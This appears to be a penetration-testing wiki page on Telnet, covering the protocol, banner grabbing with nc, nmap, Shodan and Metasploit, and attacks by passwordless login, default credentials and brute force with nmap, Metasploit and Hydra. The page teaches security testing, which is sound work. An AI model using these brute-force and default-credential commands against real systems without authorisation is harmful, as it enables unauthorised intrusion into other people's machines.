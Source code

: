 ```yaml
---
authors: 'ShutdownRepo, Tednoob17'
category: infra
---
```


# 🛠️ Telnet

## Theory
Telnet (teletype network) is a  network protocol used to gain access to a  virtual terminal in local or in remote systems . It provides  bidirectional text-based communication .

----
### Common telnet commands

| Command   | Description                                                    |
| --------- | -------------------------------------------------------------- |
| `open`    | Connects to a specified local/remote host                      |
| `close`   | Closes the current connection                                  |
| `quit`    | Exits telnet                                                   |
| `status`  | Shows the current status of the telnet client                  |
| `z`       | Suspends telnet (on Unix/Linux systems)                        |
| `set`     | Sets Telnet options (like terminal type)                       |
| `unset`   | Unsets Telnet options                                          |
| `display` | Displays current settings of Telnet options                    |
| `send`    | Sends special characters or sequences (like break)             |
| `mode`    | Sets the mode of operation (e.g., line by line or character)   |
| `logout`  | Logs out from the remote system (not available on all systems) |


## Practice
### Enumeration
#### Banner grabbing
To initiate a connection with telnet server and get any information about the target .

> [!TIP]
> The `$TARGET_PORT` is optional, but the default port is 23



::: tabs

=== Unix-like

The Telnet banner of a target can be captured using multiple tools on UNIX-like systems.

```bash
#Using Netcat
nc -nv $TARGET_IP $TARGET_PORT

#Using Telnet
telnet $TARGET_IP $TARGET_PORT

#Using Shodan-cli
shodan stream --ports 23,1023,2323 --datadir telnet-data/ --limit 10000

#Using nmap
nmap -p  $TARGET_PORT -sVC  --script "*telnet* and safe" $TARGET_IP
```
The Metasploit framework can also be used to make this work.

```
msf > use auxiliary/scanner/telnet/telnet_version
msf > set rhosts $TARGET_IP
msf > set rport $TARGET_PORT
msf > set threads 5
msf > exploit
```

=== Windows

On Windows systems, multiple tools can be used to capture the Telnet banner of a target.

```powershell
nc.exe -nv $TARGET_IP $TARGET_PORT

telnet $TARGET_IP $TARGET_PORT

nmap.exe -p  $TARGET_PORT   --script telnet-ntlm-info.nse $TARGET_IP
```
:::




### Attacks

#### Passwordless authentication

Telnet can be configured to allow users to connect to a server without needing a specific identity by utilizing a passwordless login feature. This method is commonly employed for accessing or downloading public files.

To connect without a password, one would use the following command:

```bash
telnet $TARGET_IP

# provide username, without password
```

#### Common credentials

If anonymous login is disabled on the Telnet server, trying common usernames and passwords like admin, administrator, root, user, or test can be a good initial step. This approach is less aggressive than attempting to guess passwords through brute force and is recommended to try first when accessing a server.

```bash
telnet $TARGET_IP

# provide a common username with a common password
```


#### Brute Force

::: tabs

=== Nmap

```bash
nmap -p 23 --script telnet-brute $TARGET_IP
```

=== Metasploit framework


```
use auxiliary/scanner/telnet/telnet_login
msf auxiliary(telnet_login) > set rhosts  $TARGET_IP
msf auxiliary(telnet_login) > set user_file /path/to/user.txt
msf auxiliary(telnet_login) > set pass_file /path/to/pass.txt
msf auxiliary(telnet_login) > set stop_on_success true
msf auxiliary(telnet_login) > exploit
```

=== Hydra

```bash
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S $TARGET_PORT] telnet://$TARGET_IP

hydra -l root -P $PATH_TO/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt $TARGET_IP telnet
```

:::


## Resources
https://book.hacktricks.xyz/network-services-pentesting/pentesting-telnet
https://secybr.com/posts/telnet-pentesting-best-practices/
https://github.com/InfoSecWarrior/Offensive-Pentesting-Host/blob/main/Telnet/README.md
https://techyrick.com/pentesting-telnet/
